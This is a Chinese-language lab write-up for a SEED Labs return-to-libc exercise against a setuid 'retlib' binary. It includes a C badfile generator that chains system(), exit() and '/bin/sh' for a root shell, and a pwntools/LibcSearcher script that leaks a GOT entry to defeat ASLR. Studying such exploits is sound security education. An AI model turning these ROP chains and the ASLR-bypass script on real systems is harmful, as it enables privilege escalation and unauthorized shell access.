

# week 12

##  Task 1: Finding out the addresses of libc functions

gdb是好文明，但更好的文明是
- gdb-peda：下图seed Lab自带的，中等齐全的插件
- gef：永远能用，安装只要运行sh，轻量
- pwndbg：最好最强大的插件

关了系统的ASLR之后，libc的基址就不会变了，又因为它是动态库，所以我们可以在一个程序中找到libc函数的地址，然后在其他程序中也能用。  
不同用户的libc映射不是共享的，这是seed用户的：
  

这是root用户的
  

## Task 2: Putting the shell string in the memory


这一步是将shell字符串放到环境变量中，这样`main(int argc, char **argv, char **envp)`中的`envp`就会有一个指向这个字符串的指针。

这个问题有点像第二周作业的最后一问，可以返回去看看具体的解释。  

export之后再写一个程序打出envp的地址，在argv和envp都不变，不开ASLR的情况下，`/bin/sh`的地址就是固定的了。  

  

**注意这里编译的文件名长度和retlib一致，不一致的情况之后会讨论**

这里直接编译课件中查找环境变量地址的程序，'/bin/sh' 的地址是 `0xbffffe1c` 

## Task 3: Exploiting the Buffer-Overflow Vulnerability

objdump是开源灵车人的选择，菜菜选择IDA按F5玩一年：
  

可见溢出的区域被编译成了20字节大小，跳过ebp之后应该从第24字节开始构造ROP链：

| ebp | 调用函数 | 调用函数的返回地址 | 调用函数的参数 |
| --- | --- | --- | --- |
| 随意 | system | exit | /bin/sh | 

注意上表是四字节对齐，填写的都是地址。  

根据上表的解释和之前得到的地址填完构造badfile的程序：  

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv){
    char buf[40];
    FILE *badfile;
    badfile = fopen("./badfile", "w");

    *(long *) &buf[0x14+12] = 0xbffffe1c ; // "/bin/sh" ✰
    *(long *) &buf[0x14+4 ] = 0xb7e42da0 ; // system() ✰
    *(long *) &buf[0x14+8 ] = 0xb7e369d0 ; // exit() ✰
    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}
```
编译执行，成功得到root shell  
  

#### Attack variation 1: Is the exit() function really necessary? Please try your attack without including the address of this function in badfile. Run your attack again, report and explain your observations.

删去写入exit地址的一行，或者填入无意义的地址，可以正常拿到root shell，但是退出后会段错误：
  
错误的原因在上表的解释，虽然能正常调用`system('/bin/sh')`但是system函数结束后会跑飞。

#### Attack variation 2: After your attack is successful, change the file name of retlib to a different name, making sure that the length of the new file name is different. For example, you can change it to newretlib. Repeat the attack (without changing the content of badfile). Will your attack succeed or not? If it does not succeed, explain why.

将文件名加长，不改payload显然不会成功：
  

可以直接gdb调试retlib，`b main`在main下断点之后`stack 150`查看此时的栈结构，`gdb-peda`和`pwndbg`都可以解析envp的二级指针，这是修改文件名前的  
     
修改文件名后，MYSHELL的地址由 `0xbffffe0e` 变成了 `0xbffffe0c`  
  
多出的两个字节是绝对路径的文件名变长导致的       
  

所以先前的`/bin/sh`的地址需要根据修改后的文件名长度调整才能给system传入正确的参数。 

比如在这里根据减少的两字节把badfile的`/bin/sh`地址相应减少2字节，就可以正常拿到root shell：
（在外部环境中，是`0xbffffe1c`到`0xbffffe18`）  
  

## Task 4: Turning on Address Randomization

这个问题在第三周作业中有讨论，即开启ASLR(系统完成)之后，堆栈基址都会被随机化。  

而程序的地址随机化要同时依赖PIC和ASLR，即系统提供随机支持，程序本身的代码也要地址无关(Place-Independent Code, PIC)。  

对于作为共享库的glibc，它的代码一定是地址无关的，编译共享库也需要-fPIC的选项，所以随机化后其中的函数基址会被随机化。  

而我们编译的程序在seed环境中gcc的默认参数也没有没有加上-fPIE选项，所以即使开启了ASLR，程序本身的函数地址，段地址都还是固定的。   

**这一点可以让我们利用程序自身的代码片段进行ROP的构造**  
**也可以用程序的bss，plt等段进行栈迁移，劫持god等利用**

继续使用之前的payload显然是不行的，栈地址和glibc的地址都会随机化
  

进入gdb开启地址随机`"set disable-randomization off`，可以看到libc中的函数地址已经加上了随机偏移  
  
**特别注意通libc版本低三位hex永远是固定的，这是因为内存分配按0x1000对齐**  
**这一点非常有用，可以用来根据动态的函数基址推测目标环境的glibc版本**  

也可以看到栈基址也被随机化了，因此`/bin/sh`的地址也发生了改变：
  

而漏洞生成程序的X Y Z只取决于栈的相对结构，对于固定的程序，栈上数据相对偏移是不变的。

不过，开启ASLR后，在当前的编译选项下仍然有机会获取shell：  

因为这次的溢出点不再是会截断的strcpy，而是会读满输入的fread，所以我们可以构造不受字符截断限制的ROP链：
- 利用程序中已有的函数动态泄露libc的基址，跳过Task 1中关掉ASLR的步骤
  + 我们可控的ROP链有 (40-24)/4=4 节
  + 构造以下ROP链泄露libc基址（我们的程序中有puts）
     | ebp | 调用函数 | 调用函数的返回地址 | 调用函数的参数 |
     | --- | --- | --- | --- |
     | - | puts(plt表) | main | __libc_start_main(got表) | 
  + 此时程序会无限打印出`__libc_start_main`的真实地址，我们可以选用不同函数多次运行，根据低位判断libc的版本，得到`__libc_start_main`的偏移， **真实地址减去偏移即是此时随机的libc的基址**
- 在libc中动态查找`/bin/sh`的地址（libc里不仅一定有`/bin/sh`的字符串，还会有`execve("/bin/sh", 0, 0)`的gadget），跳过Task 2中构造环境变量的步骤
  + 由于有了libc的地址，我们可以调用libc的任意函数（参数不超过两个，我们的溢出长度不够用read或者fread进行栈迁移）  
  + 又有libc版本的情况下，我们可以下载对应版本的glibc，在其中寻找One_Gadget或者`/bin/sh`字符串的地址
- 根据找到的One_Gadget加上libc基址，直接重写badfile，将返回地址劫持至OG即可

这样就可以在不知道目标系统env环境，不知道libc版本，开启ASLR的情况下获取shell。  

但如果开启了Canary或者PIE，对于本场景就很难有解的机会了  

利用脚本，注意这里我在fread前加了  
```c
int c=100000000;
while(c--);
```
用来减慢程序每轮循环的周期，不然需要使用更高效的写入文件方法如内存映射，避免漏洞程序读到文件刷新时的空文件正常返回。  
```python
import os

from pwn import *
from LibcSearcher import *

e = ELF("retlib")
puts_plt = e.plt['puts']
leak_function = 'fread'
leak_got = e.got[leak_function]
main_addr = e.symbols['main']
#context.log_level='debug'
print("[*] Loading ELF Symbols...")
print("[+] puts_plt: " + hex(puts_plt))
print("[+] leak_got: " + hex(leak_got))
print("[+] main_addr: " + hex(main_addr))
print()

print("[*] Writing Payload to file...")
f = open("badfile", "wb")
f.write(b"A" * 24 + p32(puts_plt) + p32(main_addr) + p32(leak_got))
f.close()
print("[+] ROP Chain: junk * 20 + [junk rbp] + [puts_plt] + [main_address] + [leak_got]")
print()

print("[*] First time start the program to get the version of libc...")
p = e.process()
leak_addr = u32(p.recv(4))
p.close()
print("[+] First time " + leak_function + " address: " + hex(leak_addr))
obj = LibcSearcher(leak_function, leak_addr)
libc_func_offset = obj.dump(leak_function)
print("[+] " + leak_function + ' offset: ' + hex(libc_func_offset))
system_offset = obj.dump("system")
print("[+] system_offset: " + hex(system_offset))
binsh_offset = obj.dump("str_bin_sh")
print("[+] binsh_offset: " + hex(binsh_offset))
print()
while True:
    input("[*] Press Enter to continue...")
    print("[*] Second time start the program to PWN...")
    try:
        p = process("./retlib")
        print("[*] Writing Payload to file...")
        f = open("badfile", "wb")
        f.write(b"A" * 24 + p32(puts_plt) + p32(main_addr) + p32(leak_got))
        f.close()
        print("[+] ROP Chain: junk * 20 + [junk rbp] + [puts_plt] + [main_address] + [leak_got]")
        leak_addr = u32(p.recv(4))
        print("[+] Second time " + leak_function + " address: " + hex(leak_addr))
        libc_base = leak_addr - libc_func_offset
        print("[+] libc_base: " + hex(libc_base))
        system_addr = libc_base + system_offset
        print("[+] system_addr: " + hex(system_addr))
        binsh_addr = libc_base + binsh_offset
        print("[+] binsh_addr: " + hex(binsh_addr))
        print()
        print("[*] Writing Final Payload to file...")
        f = open("badfile1", "wb")
        f.write(b"A" * 24 + p32(system_addr) + b"AAAA" + p32(binsh_addr))
        f.close()
        os.system("cat badfile1 > badfile")
        print("[+] ROP Chain: junk * 20 + [junk rbp] + [system_addr] + [junk] + [binsh_addr]")
        print()
        p.sendline(b"echo PWNED")
        _ = p.recvuntil(b"PWNED")
        print("[!] PWNED!")
        print("Enjoy your shell!")
        p.interactive()
    except Exception as e:
        print("[-] Unlucky...")
        print("[*] Restarting...")
    finally:
        p.close()

```
以下是保留编译选项不变，开启ASLR的情况下在任意(常见linux发行版的任意glibc)环境下运行利用脚本获取shell的截图。  
两次运行中，libc中的函数(如fread)地址是不同的。  
  
